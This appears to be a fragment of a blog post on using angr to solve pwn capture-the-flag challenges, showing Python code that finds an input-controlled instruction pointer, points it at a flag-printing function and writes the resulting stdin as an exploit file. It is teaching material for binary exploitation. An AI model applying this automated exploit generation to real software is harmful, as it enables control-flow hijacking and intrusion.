 ```py
# Add a constraint for the stack adjustment
initial_state.add_constraints(stack_adjustment == alignment_required)

# Create a SimulationManager that keeps track of unconstrained states
simgr = project.factory.simulation_manager(initial_state, save_unconstrained=True)

# Run until an unconstrained state occurs
simgr.run(until=lambda sm: len(sm.unconstrained) > 0)

# Get the state in which the PC is controlled by the input
pwned_state = simgr.unconstrained[0]

# Contraint rip to address of escape_plan plus the stack adjustment
pwned_state.add_constraints(pwned_state.regs.rip == cat_flag + stack_adjustment)

# Extract the concrete content of stdin from pwned_state
exploit = pwned_state.posix.dumps(0)
with open("exploit", "wb") as f:
    f.write(exploit)
```

![](/assets/posts/2024-02-18-angr-for-solving-pwn-challenges/generate_exploit.bmp)
